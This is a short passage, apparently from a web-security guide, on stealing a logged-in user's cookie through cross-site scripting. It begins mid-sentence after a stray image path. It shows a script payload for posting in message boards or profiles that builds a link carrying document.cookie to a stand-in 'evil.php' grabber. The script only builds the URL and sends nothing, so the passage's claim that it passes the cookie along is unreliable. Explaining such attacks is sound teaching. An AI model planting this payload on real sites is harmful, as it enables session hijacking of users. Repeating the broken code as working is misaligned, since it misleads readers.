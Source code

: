 f the application doesn't validate the input data, the attacker can easily steal a cookie from an authenticated user. All the attacker has to do is to place the following code in any posted input(ie: message boards, private messages, user profiles):

<SCRIPT type="text/javascript">
var adr = '../evil.php?cakemonster=' + escape(document.cookie);
</SCRIPT>
The above code will pass an escaped content of the cookie (according to RFC content must be escaped before sending it via HTTP protocol with GET method) to the evil.php script in "cakemonster" variable. The attacker then checks the results of his evil.php script (a cookie grabber script will usually write the cookie to a file) and use it.